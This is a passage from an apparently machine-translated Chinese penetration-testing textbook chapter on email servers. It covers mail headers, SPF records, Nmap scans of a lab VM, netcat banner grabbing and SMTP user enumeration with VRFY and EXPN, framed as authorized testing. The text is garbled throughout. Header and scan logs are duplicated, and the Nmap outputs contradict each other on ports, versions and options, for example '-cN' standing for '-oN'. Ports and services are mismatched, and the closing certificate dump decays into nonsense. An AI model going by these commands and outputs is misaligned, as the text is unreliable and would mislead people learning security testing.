本章解释了域名系统（DNS）的基本原理。探索了多种查询 DNS 的技术，并使用了查询名称服务器的工具和技术来发现有用信息。在本章中调查的名称服务器被发现运行着 BIND9，该版本存在已知漏洞和利用程序。其中一种利用——发送特制的 TKEY 请求——导致了服务器崩溃。这是你的客户绝对想要知道是可能的。还可以从名称服务器请求区域传输，这导致了敏感信息的泄露。这是一个典型的 DNS 配置错误。你为许多后续用于探测和利用其他技术的工具奠定了基础，例如 Nmap、Searchsploit 和 Metasploit。Wireshark 是一个可以帮助你理解网络流量和攻击底层机制的工具。

## 第 6 章：电子邮箱

你已经收集了关于目标的情报，并调查了 DNS 服务。现在，你将调查并破解一个邮件服务器，最终获得根用户（root）账户的访问权限。公司可能会使用托管服务提供商（MSPs），例如 Google 和微软，也可能使用自托管解决方案。了解邮件服务器的工作原理以及它是如何被破解的，对你作为黑客来说将非常有价值。电子邮件是计算机的主要功能之一，自从人们开始在网络上使用计算机以来，一直在使用计算机来收发消息。

## 邮件链

电子邮件的基本概念非常简单。首先，你使用邮件客户端编写邮件。这可以是 Web 浏览器中的 Google Mail、Microsoft Outlook 或另一个邮件客户端，例如 Mozilla Thunderbird。这些都是邮件用户代理（MUA），而邮件的旅程就是从这里开始的。

当你点击“发送”时，你的邮件客户端会连接到邮件传输代理（MTA），这是另一段不同的软件——例如 Sendmail 或 Exim——它通常运行在远程邮件服务器上。你的电子邮件使用简单邮件传输协议（SMTP）进行传输，我们很快就会探索这种协议。一旦运行服务器上的 MTA 收到你的消息，它将将其发送到另一个 MTA，后者最终会将电子邮件传递给消息投递代理（MDA）。

MDA 是另一段软件，其工作是将你的电子邮件实际投递到收件人的邮箱中。MDA 软件通常与 MTA 软件捆绑。你可能会遇到的一些 MDA 包括 Procmail、Maildrop 和 Dovecot。Citadel 是包含 MTA 和 MDA 的功能包示例。Microsoft Exchange 是另一个你可能熟悉的软件包。

你的电子邮件将由 MDA 投递到收件人的邮箱，邮箱可以被看作服务器上存储电子邮件的位置，也可以看作服务器上的某个空间，但目前将其看作一个不一定是文件存储切片的邮箱是最好的思考方式。

一旦你发送的邮件到达收件人的邮箱，收件人就可以通过他们的 MUA（或客户端）访问它。虽然 SMTP 负责邮件的发送，但邮局协议（POP）和互联网消息访问协议（IMAP）用于在邮件到达邮箱后访问这些邮件。如果你使用在线客户端——即某种形式的 Web 邮箱——那么超文本传输协议（HTTP）也会参与其中。我们将在下一章学习 HTTP。

这是对邮件旅程的简化解释，但它足以让你开始思考破解邮件服务器和拦截消息。邮件的旅程中通常会有更多步骤，但 MUA、MTA 和 MDA 是主要的站点。图 6.1 显示了负责旅程每一步的代理和协议；图中显示了两个邮件服务器，每个都安装了 MTA 和 MDA 软件。你在本章中将破解的虚拟邮件服务器包含了链中每个部分的元素，因此你很快就能在计算机上探索这些概念。



图 6.1：邮件链

## 邮件头部

邮件经过的系统都会在邮件中留下自己的痕迹，当然，不是在正文中，而是在头部中，那里对普通用户是不可见的。通过这些元数据，通常可以识别邮件旅程中不同系统使用的技术和软件。可能确定收件人正在使用哪种防病毒软件来扫描邮件，如果你需要规避检测，这是一个非常有价值的信息。只要知道点击哪里，任何人都可以查看这些信息。邮件客户端提供了查看邮件源的选项，就像 Web 浏览器允许你查看网页源代码一样。

邮件的源将类似于之前输出中显示的文本，但请注意，为了保持简单，此示例中删除了一些信息。如果邮件从 sender@example.com 发送到 recipient@hacker.house，那么这封邮件是从 hacker.house 的视角查看的。

```
From: sender@example.com

To: recipient@hacker.house

Subject: test

Date: Mon, 21 Jan 2019 19:21:38 +0000

Message-ID: <471e4a-7c33-f57b-b463-d83801422@example.com>

Received: from messagingengine.com (64.147.127.25) by mx.google.com with SMTP; Mon, 21 Jan 2019 11:14:05 -0800 (PST)

Received: from [10.202.1.15] by mailout.internal with SMTP; Mon, 21 Jan 2019 11:14:05 -0800 (PST)

Received: from [10.202.1.16] by mailout.internal with SMTP; Mon, 21 Jan 2019 11:14:05 -0800 (PST)

Received: from [10.202.1.17] by mailout.internal with SMTP; Mon, 21 Jan 2019 11:14:05 -0800 (PST)

Received: from [10.202.1.18] by mailout.internal with SMTP; Mon, 21 Jan 2019 11:14:05 -0800 (PST)

Received: from [10.202.1.19] by mailout.internal with SMTP; Mon, 21 Jan 2019 11:14:05 -0800 (PST)
```


# 邮件头部分析

Received: from [10.202.1.20] by mailout.internal with SMTP; Mon, 21 Jan 2019 11:14:05 -0800 (PST)

Received: from [10.202.1.21] by mailout.internal with SMTP; Mon, 21 Jan 2019 11:14:05 -0800 (PST)

Received: from [10.202.1.22] by mailout.internal with SMTP; Mon, 21 Jan 2019 11:14:05 -0800 (PST)

Received: from [10.202.1.23] by mailout.internal with SMTP; Mon, 21 Jan 2019 11:14:05 -0800 (PST)

Received: from [10.202.1.24] by mailout.internal with SMTP; Mon, 21 Jan 2019 11:14:05 -0800 (PST)

Received: from [10.202.1.25] by mailout.internal with SMTP; Mon, 21 Jan 2019 11:14:05 -0800 (PST)

Return-Path: <sender@example.com>

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Thunderbird/60.4.0

MIME-Version: 1.0

Content-Type: text/plain; charset=utf-8; format=flowed

Content-Transfer-Encoding: 7bit

邮件在旅程中经过的每一个系统都会在邮件中留下一点自己的痕迹，当然，不是在正文中，而是在头部，那里对普通用户是不可见的。通过这些元数据，通常可以识别邮件旅程中不同系统使用的技术和软件。可能确定收件人正在使用哪种防病毒软件来扫描邮件，如果你需要规避检测，这是一个非常有价值的信息。只要知道点击哪里，任何人都可以查看这些信息。邮件客户端提供了查看邮件源的选项，就像 Web 浏览器允许你查看网页源代码一样。

邮件的源将类似于之前输出中显示的文本，但请注意，为了保持简单，此示例中删除了一些信息。如果邮件是从 `sender@example.com` 发送到 `recipient@hacker.house`，那么这封邮件是从 `hacker.house` 的视角查看的。

邮件头部的多个 `Received` 字段显示了邮件的传输路径。这些字段包含了发送和接收者的 IP 地址、服务器名称以及时间戳。通过分析这些信息，安全分析人员可以追踪邮件的真实来源，并识别中间经过的服务器。这对于识别钓鱼攻击或垃圾邮件至关重要。

## 第 6 章 电子邮件

### 原始邮件头部

```
Received: AM5PR06CA0010.eurprd0.prod.outlook.com (2603:10a:206:2:23)
by V1PR062MB369.eurprd0.prod.outlook.com (2603:10a:603:16::22)
with Microsoft SMTP Server (version=TLS1_2, cipher=TLS_ECDHE_RSA_WITH_256_GCM_SHA384) id 15.20.1558.19; Tue, 29 Jan 2019 12:25:04 +0000
From: DB5EUR1FT053.exe-EUR01.prod.protection.outlook.com (2a01:f11:h411.7e::2:29) by AM5PR06CA0010.outlook.com.office365.com (2603:10a:206:2:23) with Microsoft SMTP Server (version=TLS1_2, cipher=TLS_ECDHE_RSA_WITH_256_CBC_SHA384) id 15.20.580.16 via Frontend Transport: Tue, Jan 29 2019 12:25:03 +0000
Authentication-Results: spf=pass (sender IP is 66.111.4.25) smtp.from=hacker.example; target=target.example; dkim=pass (signature verified)
header-d:hacker.example;target.example; dmarc=pass action=none
header-from:hacker.example,
Received-SPF: Pass (protection.outlook.com; domain of hacker.example designates 66.111.4.25 as permitted sender) receiver=protection.outlook.com, client-ip=66.111.4.25; helo=smtp.messagingengine.com;
Received from outl-smtp.messagingengine.com (66.111.4.25) by DB5EUR1FT053.mail.protection.outlook.com (10.152.5.19) with Microsoft SMTP Server (version=TLS1_2, cipher=TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA384) 15.20.180.10 via Frontend Transport; Tue, Jan 29 2019 12:25:03 +0000
Received from compute.2.internal (compute2.ny.internal [10.202.2.41]) by mail.nyoit.internal (Postfix) with ESMTP id 82d3f721563 for <admin@target.example>; Tue, Jan 29 2019 07:25:02 -0500 (EST)
Received from mailfront4db[10.202.2.162] by compute.2.internal (MXPROXY); Tue, Jan 29 2019 07:25:02 -0500
Received from [10.0.1.18] (82-132-246-233.82 [82,132,246,223]) by mail.messagingengine.com (Postfix) with ESMTP id B1AE84E1F33 for <admin@target.example>; Tue, Jan 29 2019 07:25:01 -0500 (EST)
To: admin@target.example
From: Hacker@hacker.example
Subject: test
Message-ID: <be6bd0c9-4ab4-4bd0-1a25-a8b79abe012@hacker.example> : Tue, 29 Jan 2019 12:24:47 +0000
User-Agent: Mozilla/5.0 (X1; Linux x86_64; rv:60.0) Gecko/20100101 Thunderbird/60.4.0
MIME-Version: 1.0
Content-Type: text/plain; charset=utf-8; format=flowed
Content-Transfer-Encoding: 7bit
Content-Language: en-US
Return-Path: hacker@hacker.example
Reporting-MTA: dns;VI2MB961.euprprd06.outlook.com
Received-From-MTA: dns;outl-smtp.messagingengine.com
Arrival-Date: Tue, 29 Jan 2019 12:25:04 +0000
Original-Recipient: rfc822;adminmin@target.example
Final-Recipient: rfc822;adminmin@target.example
Action: failed
Status: 5.1.10
Diagnostic-Code: smtp:5.1.10 RESOLVER.ADR.RecipientNotFound; Recipient adminmin@target.example not found by SMTP address lookup
```

你可以看到目标使用微软作为其电子邮件提供者的 DSN；注意被高亮的“Microsoft SMTP Server”以及 `outlook.com` 域名下的主机。原始邮件包含关于 Office 365 的信息，因此恶意黑客访问 `outlook.com` 并尝试通过网页邮箱猜测用户密码以访问 Office 365。这可能超出了与客户约定的范围，因为这些邮件服务器并不属于他们。表 6.1 以易于阅读的格式显示了主机。在 DSN 的正文中发现此类表格并不罕见。

**表 6.1:** DSN 信息

| FROM | TO | WITH |
| :--- | :--- | :--- |
| 1 | mail.messagingengine.com | ESMTP |
| 2 | mail.internal | ESMTP |
| 3 | mail.internal | ESMTP |
| 4 | mail.messagingengine.com | ESMTP |
| 5 | mail.outlook.com | SMTP Server |
| 6 | outlook.com | SMTP Server |

## MX 记录查询示例

```
<<>> DIG 10.3-P-Debian <<< mx fastmail.com

;; global options: +cmd

;; Got answer:

;; -->>HEADER opcode: QUERY, status: NOERROR, id: 25424

;; flags: qr ra; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDECTION

;; EDNS: 0, flags;; udp: 512

;; QUESTION SECTION:

    IN MX

;fastmail.com.

;; ANSWER SECTION:

fastmail.com 2975 IN MX 10 in1-smtp.messagingengine.com.

fastmail.com 2975 IN MX 20 in2-smtp.messagingengine.com.

;; Query time: 66 ms

;; SERVER: 8.8.8.8#53(8.8.8.8)

;; WHEN: Tue Jan 29 09:57:04 GMT 2019

;; MSG size rcvd: 107
```

在这里，你可以看到命名为 `in1-smtp.messagingengine.com` 和 `in2-smtp.messagingengine.com`（在之前的输出中均已高亮）是负责通过 SMTP 协议接收来自 `fastmail.com` 域名邮件的两个服务器的主机。当然，你可以进一步对这些主机名进行 DNS 查询。这样做将显示每个主机的多个 IP 地址。

## 发送者策略框架 (Sender Policy Framework)

发送者策略框架（SPF）是一种旨在防止人们伪造（欺骗）电子邮件地址的机制，这是垃圾邮件发送者常用的活动。这种验证方法使用了存储在 DNS 资源中的信息，正如上一章中虚构的 `mail1.nsa.gov` 服务器所示。为了专门从该虚拟服务器请求 SPF 记录，你可以使用以下 `dig` 命令（如果你在上一章中运行了 DoS 编辑，请确保重启你的服务器）：

```
dig @192.168.56.101 mail1.nsa.gov txt
```

该命令通过查询 IP 地址为 `192.168.56.101` 的名称服务器，请求 `mail1.nsa.gov` 的 TXT（文本）类型记录。结果可能如下：

```
<<>> DIG 11.5-1-Debian <<< @192.168.56.101 mail1.nsa.gov txt

;; (1 server found)

;; global options: +cmd

; Got answer:

;; >>HEADER<< opcode, status: NOERROR, id: 43709

;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 3

;; OPT PSEUDOSECTION:

;; EDNS: version: 0, flags; udp: 4096

;; QUESTION SECTION:

;; mail1.nsa.gov.                IN TXT

;; ANSWER SECTION:

mail1.nsa.gov.             3600 IN TXT       "*v=spf1 a mx ip4:10.1.0.25 -all"

;; AUTHORITY SECTION:

nsa.gov.                 3600 IN NS ns2.nsa.gov.

nsa.gov.                 3600 IN NS ns1.nsa.gov.

;; ADDITIONAL SECTION:

ns1.nsa.gov.             3600 IN A 10.1.0.50

ns2.nsa.gov.             3600 IN A 10.1.0.51

;; Query time: 4 msec

;; SERVER: 192.168.56.101#53 (192.168.56.101)

;; WHEN: Tue Jan 29 14:40:10 GMT 2019

;; MSG SIZE rcvd: 153
```

SPF 文本记录资源指定了授权为特定域名发送邮件的主机。现在让我们仔细观察那条记录：

```
*v=spf1 a mx ip4:10.1.0.25 -all"
```

该记录指定了正在使用的 SPF 版本，以及允许使用 `nsa.gov` 作为起始地址的主机（使用 DNS 类型语法）。

邮件传输代理（MTA）可以在接受邮件之前执行 DNS 查询以验证这些信息。在之前显示的邮件头示例中，你可能注意到以下文本：

`Received-SPF: pass (google.com: domain: senders@example.com designates 64.147.123.25 as permitted sender) client-ip=64.147.123.25`

在这里，收件方邮件（`google.com`）通过查询 SPF 记录检查了 IP 地址 `64.147.123.25` 是否允许作为 `senders@example.com` 发送邮件。

SPF 只在主机域名投递时在收件端提供优势和保护。许多电子邮件服务配置为不验证 SPF，因此伪造和钓鱼邮件可能会从启用了 SPF 的域名发送。域名密钥识别邮件（DKIM）和基于域名的认证、报告和一致性（DMARC）是与公密钥基础设施（PKI）协作的其他技术，通过添加邮件源自目标域名的验证来防止进一步的钓鱼攻击。

如果你计划将来对目标进行钓鱼和伪造攻击，你需要通过查询 DNS 记录和邮件服务器设置来验证你对 SPF、DKIM 和 DMARC 的使用。使用这些公司可以减少它们收到的垃圾邮件和恶意软件数量；然而，这些技术需要收件方和发送方的配置才能实现使用最大化，往往会出现漏洞。

你很快将有机会像邮件传输代理一样使用 SMTP 协议。在此之前，让我们扫描邮件服务器以确定我们是否可以看到 SMTP 服务。

## 扫描邮件服务器

现在我们将向你展示如何对邮件服务器进行评估，寻找可以探测的开放网络和服务端点。我们假设你已经在授权项目中通过查询 DNS 记录识别了此邮件服务器。

在上一章中，我们提供了一个 Nmap 扫描使用的简单示例。在本章中，你将对目标系统进行更全面的扫描，但基础扫描是一个很好的起点。确保你的邮件服务器虚拟机正在运行，并且你知道它的 IP 地址。（参考第 3 章）。

在 Kali Linux 中，打开终端并输入以下命令：

```
nmap 192.168.56.102
```

结果应该类似于以下：

```
Starting Nmap 7.80 (Copyright) 2002-2017 Fyaxo Project) https://nmap.org

Nmap scan 192.168.56.102 performed for 0.05 seconds at 2019-01-29 15:00:00 Nmap0

Host 192.168.56.102 is up.

Nmap report for 192.168.56.102:

PORT     STATE SERVICE

9/tcp    open  discard

21/tcp   open  ftp
```


## 端口扫描结果

| 端口 | 状态 | 服务 |
|------|------|------|
| 25/tcp | open | smtp |
| 37/tcp | open | finger |
| 80/tcp | open | http |
| 110/tcp | open | pop |
| 113/tcp | open | ident |
| 143/tcp | open | imap |
| 443/tcp | open | https |
| 993/tcp | open | imaps |
| 995/tcp | open | pop3s |

MAC Address: `08:00:27:cc:b8:12` (Oracle VirtualBox)

Nmap scan completed: 1 IP (1 host) scanned in 13.35 seconds

# 第 6 章 电子邮件

此 Nmap 命令包含许多选项，用于决定该工具如何进行扫描。让我们来看看这些选项的含义。

你始终应该查阅工具的帮助页（man page）以理解其正确用法。在上一个命令中，`-sT` 告诉 Nmap 使用完整的 TCP 三次握手连接到目标端口，这将使其尝试像一个真实的客户端应用程序一样在每个端口上建立一个完整的 TCP 连接。

默认情况下，Nmap 不会这样完成连接，而是发送一个表示 TCP 握手开始的单一包。`-A` 选项告诉 Nmap 执行进一步的任务——操作系统检测（OS）、版本检测、脚本扫描（使用 Nmap 脚本引擎 (NSE)，我们稍后会介绍）以及路由追踪（traceroute）。`-A` 选项可以被看作是激进或高级模式，因为这些额外任务更有可能触发网络告警。Nmap 的帮助页指出：“在没有[书面]许可的情况下[你]不应对目标网络使用 -A。”

> **提示** 在类 Unix 操作系统上，路由追踪使用 `traceroute` 命令。它可以显示通往远程主机的路径（或路由），以及数据包到达（并由沿途节点返回）所需的时间。

`-vv` 选项设置详细程度（verbosity level）。详细程度是许多命令行程序的常用选项。它简单指的是程序在运行时向用户显示的信息量。当你刚开始学用时，建议使用高详细程度，因为它将帮助你理解特定工具在做什么。你可以通过使用 `-v` 和 `-vv` 参数，或在扫描期间按 `v`（`d` 或 `D` 用于增加减少调试级别）来调整详细程度。这样做将产生更多或更少的信息。

`-n` 选项禁用 DNS 解析。这意味着将不会对 `192.168.56.102` 的主机名进行反向查找。这将加快扫描过程，因为发送的数据包更少且等待超时的时间减少。`-Pn` 选项禁用 ping 探测。默认情况下，Nmap 会先使用各种不同类型的包 ping 目标。如果你已经知道目标存在，就没有必要 ping 它，因此可以跳过此步骤以加快速度。此外，某些系统根本不会对 ping 响应，或者在响应其他服务时显示不存在。

在目标 IP 地址之后，`-p` 用于指定所有端口。（此选项可以用于任何地方——它不需要放置在 IP 地址之后）。默认情况下，Nmap 仅扫描常用端口，正如你第一次扫描此主机时看到的那样，它只揭示了一些常用服务。如果在高很多的端口号上有什么程序在监听怎么办？你可以使用 `-p` 选项后跟端口号来指定单个端口，例如 `-p 25`。在上一章中，你曾扫描过 UDP 端口 `53`，以停止 Nmap 扫描你不感兴趣的端口。

忽略任何 TCP 端口都是疏忽的，这就是为什么现在正在扫描所有端口的原因。你永远不知道客户端可能在高端口号上运行什么程序，你甚至可能会发现别人留下的后门。事实上，尽管由于这可能花费很长时间，但出于相同的原因，也建议扫描所有 UDP 端口。然而，目前只需关注 TCP 端口，因为由于连接超时和网络防火墙的存在，准确完成全 UDP 扫描可能需要几天或几周的时间。

最后，`-cN` 选项将扫描结果输出到文本文件中，该文件之前指定为 `mailserver_results.txt`。不过，这可以是你喜欢的任何名称。

你会发现这种全面扫描耗时更长，为你留出了时间在初始扫描中探索服务。最终，结果将返回，有大量信息需要审查。首先，你应该预期看到 Nmap 输出如下：

```
Starting Nmap 7.70 (https://nmap.org ) at 2019-01-15 13:43 GMT

NSE: 148 scripts for pre-scanning.

NSE: Script Pre-scanning.

NSE: Starting runlevel 1 (of 2) scan.

Initiating NSE at 13:43

Completed NSE at 13:43, 0.00s elapsed

NSE: Starting runlevel 2 (of 2) scan.

Initiating NSE at 13:43

Completed NSE at 13:43, 0.00s elapsed

Initiating ARP Ping Scan at 13:43

Scanning 192.168.56.102 [1 port]

Completed ARP Ping Scan at 13:43, 0.04s elapsed (1 hosts)

Initiating Connect Scan at 13:43

Scanning 192.168.56.102 [65535 ports]

Discovered open port 21/tcp on 192.168.56.102

Discovered open port 143/tcp on 192.168.56.102

Discovered open port 80/tcp on 192.168.56.102

Discovered open port 29/tcp on 192.168.56.102

Discovered open port 993/tcp on 192.168.56.102

Discovered open port 443/tcp on 192.168.56.102

... (重复发现日志省略) ...

Discovered open port 21/tcp on 192.168.56.102

Discovered open port 143/tcp on 192.168.56.102

Discovered open port 80/tcp on 192.168.56.102

Discovered open port 29/tcp on 192.168.56.102

Discovered open port 993/tcp on 192.168.56.102

Discovered open port 443/tcp on 192.168.56.102
```


# Nmap 扫描日志

## 端口发现阶段

Discovered open port `21/tcp` on `192.168.56.102`
Discovered open port `29/tcp` on `192.168.56.102`
Discovered open port `80/tcp` on `192.168.56.102`
Discovered open port `143/tcp` on `192.168.56.102`
Discovered open port `443/tcp` on `192.168.56.102`
Discovered open port `993/tcp` on `192.168.56.102`

... (truncated)

## Nmap 扫描详细输出

```
Starting Nmap 7.70 (https://nmap.org ) at 2019-01-15 13:43 GMT
NSE: 148 scripts for pre-scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 13:43
Completed NSE at 13:43, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 13:43
Completed NSE at 13:43, 0.00s elapsed
Initiating ARP Ping Scan at 13:43
Scanning 192.168.56.102 [1 port]
Completed ARP Ping Scan at 13:43, 0.04s elapsed (1 hosts)
Initiating Connect Scan at 13:43
Scanning 192.168.56.102 [65535 ports]
Discovered open port 21/tcp on 192.168.56.102
Discovered open port 143/tcp on 192.168.56.102
Discovered open port 80/tcp on 192.168.56.102
Discovered open port 29/tcp on 192.168.56.102
Discovered open port 993/tcp on 192.168.56.102
Discovered open port 443/tcp on 192.168.56.102
...
```

# Nmap 扫描结果 (TCP)

扫描完成后，将提供一个扫描报告，并输出到通过 `-oN` 指定的文本文件中。在 `192.168.56.102` 上发现了开放端口 `21/tcp`、`143/tcp`、`80/tcp`、`29/tcp`、`993/tcp`、`443/tcp`...

| 端口 | 状态 | 服务 | 版本 |
| :--- | :--- | :--- | :--- |
| 21/tcp | open | ftp | ProFTPD 3.3 |
| 25/tcp | open | smtp | Exim smtp 4.6 |
| 80/tcp | open | http | nginx 1.4.0 |
| 110/tcp | open | pop | Cyrus popd 2.3.2 |
| 143/tcp | open | imap | Cyrus imad 2.3.2 |
| 443/tcp | open | ssl/http | nginx 1.4.0 |
| 995/tcp | open | pop3/pop3 | Cyrus popd 2.3.2 |
| 4190/tcp | open | sieve | Cyrus timmsied 2.3.2 |

服务信息：主机：`localhost`, `mailserver01`；操作系统：`Unix`, `Linux`； CPE: `cpe:/o:linux:linux_kernel`

Nmap 完成：在 172.77 秒内扫描了 1 个 IP 地址（1主机在线）
发送的原始数据包：26 (1.986KB) | 接收：14 (1.238KB)

这次扫描的结果与你初始扫描的结果会有很大不同。这一次，由于你启用了额外的 Nmap 选项，你可以看到更多关于主机上运行服务的信息，并且识别出了一个额外的开放端口 (`4190`)。注意报告顶部的表头：

| 端口 | 状态 | 服务 | 原因 | 版本 |
| :--- | :--- | :--- | :--- | :--- |

开放的端口将用如下行标出：

| 25/tcp | open | smtp | syn-ack | Exim smptd 4.68 |

在此示例中，端口是 TCP 端口 `25`，状态为 `open`（开放），在该端口上运行的服务是 SMTP 服务器。Nmap 确定该端口开放的原因是它接收到了 `SYN-ACK` TCP 数据包。这是之前提到的三次握手的一部分，`R` 表示该服务已开放并正在等待远端的 `ACK`（确认）响应。Nmap 还检测到了该端口上的软件响应（`Exim smptd 4.68`）。Exim 是软件的名称，`smptd` 中的 `d` 代表 `daemon`（守护进程）。*守护进程*是一个作为后台进程运行的程序，在系统启动时自动启动。`4.68` 是 Exim 软件的版本号。

这些是你在扫描真实服务器时可能预期看到的内容。在这一组结果中，有几个服务特别值得关注，因为它们与电子邮件直接相关。这些是我们在本章将重点关注的服务。其他服务将在未来章节的相关部分进行介绍。

当你进行渗透测试时，你很可能想按顺序遍历端口，通过探测每个端口获取信息并移动到下一个端口。现在，我们将跳过文件传输协议（FTP）服务（将在第 9 章“文件和文件共享”中探索）以及丢弃服务（discard service），并转向运行在端口 `25` 上的 SMTP 服务。这前三个开放端口的结果如下：

| 端口 | 状态 | 服务 | 原因 | 版本 |
| :--- | :--- | :--- | :--- | :--- |
| 9/tcp | open | discard? | syn-ack | |
| 21/tcp | open | ftp | syn-ack | ProFTPD 1.3.3a |
| | | auth-owners: nobody | | |
| 25/tcp | open | smtp | syn-ack | Exim smptd 4.68 |

# 探测 SMTP 服务

```
| auth-owners: Debian-exim
| smtp-commands: localhost Hello nmap.scan.me [192.168.56.103], SIZE 5242800, EXPN, PIPELINING, HELP,
| 支持的命令: AUTH HELLO EHLO MAIL RCPT DATA NOOP QUIT RSET HELP EXPN VRFY
```


Nmap 自动从端口 25 收集了信息，你会发现额外的 `PORT`、`STATE`、`REASON` 和 `VERSION` 列，你还会发现关于该服务的额外信息，这些信息现在可能没有太大意义。让我们看看如何手动收集相同的信息，并在我们进行的过程中发现它们的确切含义。这将有助于解释 SMTP 协议以及通用协议。

首先，我们与目标服务器上的端口 25 建立 TCP 连接。可以使用 Netcat（或使用常用命令 `nc`）连接到运行在远程服务器上的端口。Netcat 是一个你将会经常使用的多功能工具。现在，我们将使用它读写 TCP 网络连接的能力。语法非常直观。

```
nc <TargetIP> <Port>
```

要连接到虚拟机上运行的 SMTP 服务，像之前一样，假设服务器 IP 地址为 `192.168.56.102`，输入以下命令：

```
nc 192.168.56.102 25
```

Netcat 默认尝试建立 TCP 连接。你在这里做的是打开一个 TCP 连接。Netcat 并不理解不同的应用层协议；相反，它依赖于你用户。它只是打开了一个原始连接。幸运的是，SMTP 很好理解。让我们尝试模拟邮件用户代理（或邮件客户端）。在尝试发送任何内容之前，等待该服务的欢迎横幅：

```
220 localhost SMTP Exim 4.68 Tue, 15 Jan 2019 14:05:09 +0000
```

# 横幅获取

横幅获取是连接到机器上的服务并等待它们显示（或发送）其欢迎横幅的过程。有时，你会发现通过这种方式泄露了大量信息。系统管理员会确保横幅很少或没有信息，你不能总是依赖它们。它们也可能被伪造或提供错误的信息。像 Nmap 这样的端口扫描工具会在扫描过程的一部分抓取横幅。这被视为收集信息的可靠方法。尽管如此，始终要保持基本的常识。

# 第 6 章 电子邮箱

你可能记得早些连接到此服务时显示了一些信息。该横幅包含了软件的名称和版本号。现在再看一眼：

```
220 localhost SMTP Exim 4.68 Tue, 15 Jan 2019 14:05:09 +0000
```

软件名称是 Exim，其版本号是 4.68。这些信息确实值得注意，并且应该被添加到你的文件或电子表格中。这是 Nmap 收集并包含在扫描报告中的相同信息。自然，我们将使用这些信息来搜索已知的漏洞。首先，让我们花更多时间探索 SMTP。你可以通过输入 `HELP` 命令获取命令列表。注意，不需要大写命令，因为小写命令同样有效。

```
HELP
```

```
214-支持的命令:
214-AUTH HELLO EHLO HELP EXPN VRFY
```

`EXPN` 命令用于扩展用户名以完成电子邮件地址。你可能已经从之前的开放源情报识别了（潜在的）电子邮件地址，或者你可以尝试常用的名称 admin。

```
EXPN admin
```

服务器应该以以下电子邮件地址响应。然而，这并不意味着一定有 admin 用户或这就是地址。

```
250 <admin@localhost.localdomain>
```

另一个尝试是 `VRFY` 命令。

```
VRFY admin
```

```
250 <admin> is deliverable
```

这看起来很有希望。也许还有另一个用户——你非常确定它不存在。你可能会发现。

```
VRFY fake_employee_not_exist
```

```
250 <fake_employee_not_exist> is deliverable
```

据此推断，这个极不可能的用户也是我们可以投递邮件的对象。但就此而言，这些信息可能不可靠。如果你的客户端确实有一个可以以此种方式枚举真实用户名和电子邮件地址的服务，它们将面临严重问题。

## 开放中继

开放中继是 SMTP 的一项功能，会被恶意用户用来发送垃圾邮件。它们被配置为接受任何来源的邮件并转发到任何目的地。这是一个安全风险，应尽可能避免。如果必须使用开放中继，请确保它受访问控制和身份验证保护。

攻击者只需通过向 SMTP 服务发送重复请求，就能轻松创建一个包含所有用户及其地址的巨型列表。由于这个原因，现代邮件服务器默认禁用了 `VRFY` 命令。

检查你发现的任何问题并确保它不是误报非常重要。许多自动化工具不会或无法做到，因此许多手动检查至关重要。这就是伦理黑客的价值所在——机器在自动化黑客过程方面无法比人类做得更好，但这种情况最终可能会通过人工智能和机器学习发生改变。

你已经学习了 SMTP 的基础知识并成功地与机器进行了对话——你可能花些时间更详细地探索各种命令。也许你可以研究如何使用此服务向公司内部的人发送电子邮件。稍后，一旦你破解了一些邮箱，你就可以查看你的信息是否在那里。这里有一个提示：你将需要结合已学的内容使用 `DATA` 命令。

## 邮局传输协议

如果你回想之前进行的端口扫描结果，25 端口之后的下一个开放端口是“mail”服务，接着是 79 端口的“finger”服务；然后是 80 端口的 HTTP 服务。虽然你可能在邮件服务器上看到这些服务，但它们没有一个是专门的邮件服务。

```
37/tcp open syn-ack (32 bits)
|_rfc868-time: 2019-01-15T13:46:19

79/tcp open finger syn-ack Linux fingered
|_finger: No one logged on.\xD0

80/tcp open http syn-ack nginx 1.4.0
|_auth_owners: www-data
|_methods:
| Supported Methods: GET HEAD POST
|_server-header: nginx/1.4.0
|_title: HackerHose - Login
|_Requested resource was src/login.php
```

我们将在本章稍后探讨 Finger 服务，到时你对此毫无疑问，并熟悉 80 端口上发生的情况。该服务器正在运行某种网站或 Web 应用程序。在查看这些任何内容之前，让我们集中在其他邮件上。

在 80 端口之后，下一个开放端口是 110 端口，它运行着 POP3 服务。（这一次，我们没有省略 ssl-cert 脚本的输出）。以下是 Nmap 扫描结果的对应部分。

```
110/tcp open pop3
syn-ack pop3 2.3.2
|__auth-owners: cyrus
|pop3_capabilities: TOP LOGIN-DELAY (0) RESP-CODES IMPLEMENTATION (Cyrus
pop3 server v2) PIPELINING EXISTS (NEVER) SASL(DIGEST-MD5 CRAMD-MD5 NTLM)
APOS USER AUTH-RESP-CODES UIDL
|pop3-ntlm-info:
| Target_Name: MAILSERVER0
|ssl-cert: Subject: commonName=hackblock.linux01.lab/
organizationName=HHouse/stateProvince=HH/countryName=UK/
emailAddress=info@yourhouse.com/organizationUnit=HHouse/
localityName=test
| Issuer: Subject=Superish, organizationName=Superish, Inc/
stateProvince=CA/countryName=US/localityName=SF
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid: 2016-12-01T01:31:04
| Not after: 2034-05-07T21:26:05
SHA-1: b568 e67 a7d3 95eb 1959 f7b8 f5d8 a2aa c6c0 15e3 174
SHA-1: b568 e67 a7d3 95eb 1959 f7b8 f5d8 a2aa c660 1533 174
1166666611111111111111111122111211111112222112122211222222222222211 111111766
----- BEGINIFICATE ---
MICaAwYBAIBAQIIvpIIjQZoochnCAQFEABQWRmYBEIAJ
